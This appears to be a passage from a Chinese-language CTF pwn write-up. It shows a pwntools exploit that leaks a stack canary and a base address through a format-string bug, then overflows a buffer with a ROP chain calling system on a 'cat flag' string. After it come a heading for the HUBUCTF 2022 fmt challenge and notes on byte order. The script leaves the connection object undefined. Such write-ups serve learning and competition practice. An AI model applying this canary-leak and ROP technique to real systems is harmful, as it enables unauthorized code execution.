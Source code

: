 ```python

elf = ELF('./ff')

context.log_level = 'debug'
context(arch='amd64',os='linux')

p.recvuntil(b'name? ')
payload1 = b'%17$p---%19$p'
p.sendline(payload1)
p.recvuntil(b'you, ')

canary = int(p.recv(18), 16)
print(hex(canary))

p.recvuntil(b'---')
base = int(p.recv(14), 16)
print(hex(base))

Base = base - 0x146F

system = Base + elf.sym['system']
catflag = Base + 0x2004
#ropgadget
rdi = Base + 0x14E3
ret = Base + 0x101A

payload = b'a'*0x38 + p64(canary) + b'a'*8 + p64(ret) + p64(rdi) + p64(catflag) + p64(system)
p.recvuntil(b'else? ')
p.sendline(payload)
p.recv()
p.interactive()
```

# [HUBUCTF 2022 新生赛]fmt

字符串倒转：
大小端序的问题，大端序将数据的低位字节存放在内存的高位地址，高位字节存放在低位地址；
小端序将一个多位数的低位放在较小的地址处，高位放在较大的地址处。而计算机的内部处理都是小端字节序；在计算机内部，小端序被广泛应用于现代 CPU 内部存储数据；而在其他场景，比如网络传输和文件存储则使用大端序

![alt text](image-12.png)
上图为小端序的存储状况，作为高位字节的12就放在了低地址
```bash
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
```